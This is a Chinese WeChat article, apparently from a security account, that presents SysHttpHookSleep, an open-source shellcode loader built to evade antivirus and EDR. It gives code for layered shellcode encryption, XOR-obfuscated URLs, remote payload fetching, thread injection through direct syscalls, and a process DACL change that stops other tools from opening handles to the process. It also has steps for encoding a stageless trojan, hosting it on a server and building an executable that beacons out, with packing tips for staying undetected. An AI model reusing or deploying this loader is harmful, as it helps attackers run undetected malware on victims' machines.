 #  内存规避Shellcodeloader

原创 Wangfly  [ SafeTime ](javascript:void\(0\);)

**SafeTime** ![]()

微信号 safetm

功能介绍 分享安全实践经验

____

___发表于_

收录于合集

#对抗 1 个

#内网渗透 2 个

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714174856.png)

点击上方蓝字关注我们

  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714174857.png)\

# SysHttpHookSleep

https://github.com/wangfly-me/SysHttpHookSleep

## 代码来源

集合多种方式的ShellcodeLoader，主要代码来自：

https://github.com/mgeeky/ShellcodeFluctuation

https://github.com/TheD1rkMtr/BlockOpenHandle

## 主要功能

 **Shellcode：** 异或xor加密+Base64编码+AES加密+Base64编码+字符串反转。  

 **加载方式：** URL加密+远程加载+Syswhispers上线。  

 **内存规避：** HOOK Sleep函数+内存xor加密+System权限打开句柄。  

 **反虚拟机：** 注册表+文件+进程+内存。

## 原理浅析

Shellcode加密，采取`异或xor加密+Base64编码+AES加密+Base64编码+字符串反转`。

#### 异或xor加密

可改进，动态key生成

    
    
    const char* xx = rest2_decoded.c_str();  
      
    std::vector<uint8_t> sc;  
      
    for (int j = 0; j < rest2_decoded.length(); j++)  
    {  
        sc.push_back(xx[j] ^ XK2 ^ XK1);  
    }

#### 字符反转

    
    
    reverse(rest2_reference.begin(), rest2_reference.end());

AES和Base64，都有写好的，下载下来，直接用即可。https://github.com/kkAyataka/plusaes

#### URL加密

主要是避免静态特征，加密解密程序如下：

    
    
    int key[] = { 1,2,3,4,5,6,7 };  
      
    void encryption(string& c, int key[]) {  
        int len = c.size();  
        for (int i = 0; i < len; i++) {  
            c[i] = c[i] ^ key[i % 7];  
        }  
    }  
    void decode(string& c, int key[]) {  
        int len = c.size();  
        for (int i = 0; i < len; i++) {  
            c[i] = c[i] ^ key[i % 7];  
        }  
    }

#### 远程线程注入

Syswhispers生成远程线程注入函数，代码如下（可改进，Unhook每个敏感函数，去掉EDR钩子）：

    
    
    bool iS(std::vector<uint8_t>& shellcode, HandlePtr& thread)  
    {  
        HANDLE hHostThread = INVALID_HANDLE_VALUE;  
        auto alloc = VirtualAlloc(NULL, shellcode.size() + 1, MEM_COMMIT, PAGE_READWRITE);  
      
        memcpy(alloc, shellcode.data(), shellcode.size());  
        DWORD old;  
        VirtualProtect(alloc, shellcode.size() + 1, Shellcode_Memory_Protection, &old);  
        shellcode.clear();  
        SIZE_T sDataSize = shellcode.size();  
        NtCreateThreadEx(&hHostThread, 0x1FFFFF, NULL, (HANDLE)-1, (LPTHREAD_START_ROUTINE)alloc, NULL, FALSE, NULL, NULL, NULL, NULL);  
        NtWaitForMultipleObjects(1, &hHostThread, WaitAll, FALSE, NULL);  
        NtFreeVirtualMemory((HANDLE)-1, &alloc, &sDataSize, MEM_RELEASE);  
        return 0;  
    }

#### 内存规避

https://www.freebuf.com/articles/system/361161.html

#### System权限打开句柄

    
    
    void Set()   
    {  
        LPCWSTR sddl = L"D:P"  
            L"(D;OICI;GA;;;WD)"    
            L"(A;OICI;GA;;;SY)"    
            L"(A;OICI;GA;;;OW)";  
      
        PSECURITY_DESCRIPTOR securityDescriptor = nullptr;  
      
        if (!ConvertStringSecurityDescriptorToSecurityDescriptorW(sddl, SDDL_REVISION_1, &securityDescriptor, nullptr))   
        {  
            return;  
        }  
      
        if (!SetKernelObjectSecurity(GetCurrentProcess(), DACL_SECURITY_INFORMATION, securityDescriptor))   
        {  
            return;  
        }  
      
        LocalFree(securityDescriptor);  
    }

## 操作步骤

 **加密编码工具在release中下载。**

先生成stagerless的raw木马，按顺序分别使用enc.py、AES_Shellcode.exe、rev.py生成b.txt文件，并将其部署在服务器端。![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714174858.png)

其次将URL使用URL_XOR.exe进行加密，并分成两段填入str1和str2参数中。![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714174859.png)

最后生成exe，运行上线。![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714174900.png)

## 免杀效果

由于在项目中已经投入使用一段时间，可能有些已经不免杀，可以尝试VMP加壳，或者修改代码二次开发，来规避杀软。

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714174901.png)

  

 **——The  End——**  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714174903.png)

  

  

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

